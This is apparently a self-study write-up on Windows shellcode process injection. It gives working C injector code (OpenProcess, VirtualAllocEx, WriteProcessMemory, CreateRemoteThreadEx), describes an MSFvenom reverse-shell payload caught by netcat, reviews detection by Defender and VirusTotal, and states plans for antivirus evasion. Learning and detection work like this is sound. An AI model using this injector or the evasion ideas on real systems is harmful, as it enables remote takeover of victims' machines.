





# Shellcode Injection

## Table of Contents

- [Shellcode Injection](#shellcode-injection)
  - [Table of Contents](#table-of-contents)
  - [Project Description](#project-description)
  - [Necessary knowledge](#necessary-knowledge)
    - [Programs, Processes, Threads, Handles](#programs-processes-threads-handles)
      - [Windows API](#windows-api)
  - [Malware development](#malware-development)
    - [Process-Injection](#process-injection)
      - [MSFvenom](#msfvenom)
      - [Coding](#coding)
        - [Search target process](#search-target-process)
        - [Allocate memory](#allocate-memory)
        - [Write allocated memory](#write-allocated-memory)
        - [Execute shellcode](#execute-shellcode)
        - [CLEANUP](#cleanup)
  - [Malware in action](#malware-in-action)
  - [Detection](#detection)
    - [Windows Defener](#windows-defener)
    - [System informer / Process hacker](#system-informer--process-hacker)
    - [VirusTotal](#virustotal)
    - [Skills Learned](#skills-learned)

## Project Description

Aim of this project is to better understand how malware works. In this project my plan is to create programs that do simple shellcode injection with use of WindowsAPI. Eventually I want to gain deeper understanding about lower level methods like Syscalls but Journey 1 will for the most part use WindowsAPI.

Important to note is that I'm an absolute beginner who is trying to learn new things. Hopefully in the future my understanding will be better but for now everything that you see down there most likely will not be 100% accurate.

## Necessary knowledge

### Programs, Processes, Threads, Handles

*All definitions are simplified for my better understanding

**Program** is a sequence of instructions and the data that CPU needs to accomplish a specific task.

**Process** is shortly a program in execution.

I would describe process as a container of context. All processes are made so that they can work concurrently with other processes. Concurrency in fact is giving a specific amount of CPU time to every process. To make this possible the CPU state must me saved because we need to be able to come back to state from where we given up CPU.

In CPU state we can point out few important things like: (but not all)
- General purpose registers
- Instruction register
- Program counter
- Stack pointer
- Flags
- etc.

Obviously CPU state is not enough for context of a process. There are also things like IO devices, open files, parent and children processes, process state, pid etc. Looking into Linux kernel source code we can find structure which is used by OS to manage processes and performing context switch.


The screen above is simplified structure from yt channel Core Dumped.

**Thread** is a lightweight process within a process. This is absolutely informal but makes sense to me.

Is is important to know that creating, deleting threads are much lighter operation so it doesn't consume as much resources as managing additional processes.

Threads allow concurrency within the same process.

Every created process starts with one Main Thread and if needed dynamically creates new one



As seen on the above image threads also have to backup the CPU state to be able to switch with eachother.

Threads lives in the same address space of the process

They all have their own virtual stacks but they technically can access others thread stacks as well because of the same address space. (In most cases you shouldn't do that)

**Handle** is a generic unit of identification of object that we can use to interact with.

Most popular are 2 types of handles:

HANDLE - handle to process
HMODULE - handle to module

#### Windows API

It is available API for windows which share useful set of functions and data structures that a Windows program can use to ask Windows OS to do something.

Important to note that it is well documented but in the same time it is highly monitor by anti malware programs so to make 'undetectable malware' it might not be the best option but for learning is pretty decent.

## Malware development

### Process-Injection

Process injection is interesting technique which allows us to inject payload/shellcode to an existing process.

#### MSFvenom

In short MSFvenom allows us to generate payload. It is worth noting that generated payload by MSFvenom is known so it is easily detectible. This tool is really useful because it provides us with safe shellcode because we should never take random shellcode from internet.



Generated shellcode will create reverse shell.

#### Coding

##### Search target process

```c
 // ------------------ PROCESS SEARCHING ------------------
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    Process32First(hSnapshot, &pe32);
    do
    {
        if (strcmp(pe32.szExeFile, argv[1]) == 0)
        {
            hTargetProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
            break;
        }
    } while (Process32Next(hSnapshot, &pe32));

    if (hTargetProcess == NULL)
    {
        printf("ERROR: Failed to retrieve target process handle: %d\n", GetLastError());
        return 1;
    }
    printf("SUCCESS: Target process handle retrieved\n");
```

Function CreateToolhelp32Snapshot with TH32CS_SNAPPROCESS makes snapshot of all processes and returns an open handle to that snapshot.

Process32First retrieves informatin about the first process encountered in a system snapshot.

Whole process is checking if any process name in the snapshot is equal to first call argument

When the process is found we can retrieve handle to it using OpenProcess (with all access) by providing found PID to the function

##### Allocate memory

```c
    // ------------------ ALLOCATE MEMORY ------------------
    pAllocatedMemory = VirtualAllocEx(hTargetProcess, NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
    if (pAllocatedMemory == NULL)
    {
        printf("ERROR: Failed to allocate memory: %d\n", GetLastError());
        CloseHandle(hTargetProcess);
        return 1;
    }
    printf("SUCCESS: Memory allocated at address: 0x%p\n", pAllocatedMemory);
```

Before we can write shellcode to the process we need to reserve the memory first using VirtualALlocEx.
MEM_RESERVE - reserves virtual address space of the process
MEM_COMMIT - allocate physical memory -> after that we can write the memory

##### Write allocated memory

```c
    // ------------------ WRITE ALLOCATED MEMORY ------------------
    WriteProcessMemory(hTargetProcess, pAllocatedMemory, shellcode, sizeof(shellcode), NULL);
    printf("SUCCESS: Memory written\n");
```

Using WriteProcessMemory function to write shellcode to earlier reserved and commited memory

##### Execute shellcode

```c
    // ------------------ CREATE THREAD TO EXECUTE SHELLCODE ------------------
    hCreatedThread = CreateRemoteThreadEx(hTargetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pAllocatedMemory, NULL, 0, 0, NULL);
    if (hCreatedThread == NULL)
    {
        printf("ERROR: Failed to create thread: %d\n", GetLastError());
        VirtualFreeEx(hTargetProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hTargetProcess);
        return 1;
    }
    printf("SUCCESS: Thread created\n");
```

To execute shellcode we create new thread in targeted process because it is harder to force process to execute our instruction right now because we don't know if it wouldn't break it.

LPTHREAD_START_ROUTINE is a pointer to the application-defined function of this type and it is needed for CreateRemoteThreadEx function so we have to cast our void pointer to allocated memory to that LPTHREAD_START_ROUTINE

##### CLEANUP

```c
    // ------------------ CLEANUP ------------------
    WaitForSingleObject(hCreatedThread, INFINITE);
    VirtualFreeEx(hTargetProcess, pAllocatedMemory, 0, MEM_RELEASE);
    CloseHandle(hCreatedThread);
    CloseHandle(hTargetProcess);
    printf("CLEANUP - FINISHING\n");
    return 0;
```

Closing opened handles and freeing the allocated memory

## Malware in action

I will test malware to inject shellcode to working process mspaint.exe. Before program execution I have to prepare netcat on my machine to listen on port 4444.




It is success we got a reverse shell.

## Detection

### Windows Defener

To even run this malware I have to disable windows defender because it is obvious for it that the program is a malware. In the future I will try to evade Windows Defender by obfuscating my code and using NativeAPI. One big problem that also will have to be solved is the shellcode which is a well known code so I would have to encrypt it and/or dynamically download it.

### System informer / Process hacker

Using application Process Hacker (which is now System Informer) we can see useful information about processes



We can see clearly that mspinat.exe spawned child processes cmd.exe conhost.exe and powershell.exe (because I spawned powershell through cmd) which is obviously indicator of compromise (IoC) because normally

### VirusTotal

This malware process injection is known technique and also it is using Windows API so it clearly doesn't try to hide itself but I will upload it to VirusTotal to check the result


As expected it was easily detected. In the future I will try to make this number lower.

### Skills Learned
- Windows API
- MSFVenom
- Reverse shell
- Process Injection